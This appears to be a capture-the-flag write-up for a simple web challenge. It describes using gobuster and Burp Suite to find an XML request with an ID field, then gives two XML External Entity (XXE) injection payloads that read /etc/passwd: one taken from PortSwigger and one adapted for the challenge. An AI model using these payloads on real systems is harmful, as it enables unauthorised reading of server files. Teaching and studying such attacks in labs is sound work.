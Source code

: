 ## Analysis
The website for this challenge is relatively simple, featuring no input fields but three buttons. Upon closer inspection, it becomes clear that the site does not hide any flags within its HTML elements.
![website](image.png)

Running **gobuster**, shows us existence of `/data` directory, which we cannot access.  However, this discovery suggests that the site likely uses HTTP requests for functionality.

Clicking 'details' will write us a information on program - after investigating these, we can see that upon using them, a http request is sent - and payload of response to this request is written on our screen.

Using **Burp Suite** ([https://portswigger.net/burp](https://portswigger.net/burp)), we can analyze the HTTP communication in detail.

![burpsuite](image-2.png)

We observe that the payload sent contains an ID parameter, and the server's response is based on this ID. If we modify the ID to an invalid value, such as 0, the server returns an error indicating that the specified ID does not exist.

Additionally, the payload is formatted in XML. If the web application lacks proper input validation or sanitization, this could expose it to XML-based attacks, such as XML External Entity (XXE) Injection. This vulnerability could allow us to exploit the system by injecting malicious XML entities.

## Exploit 

We can try to use XML external entity (XXE) injection (https://portswigger.net/web-security/xxe).

Using one of the examples from portswigger site
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>    
</stockCheck>
```
We can change this to fit our previous payload.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&payload;</ID>
</data>
```
Then just put this into `burpsuite repeater` and send the request.

![burpsuite-attack](image-1.png)
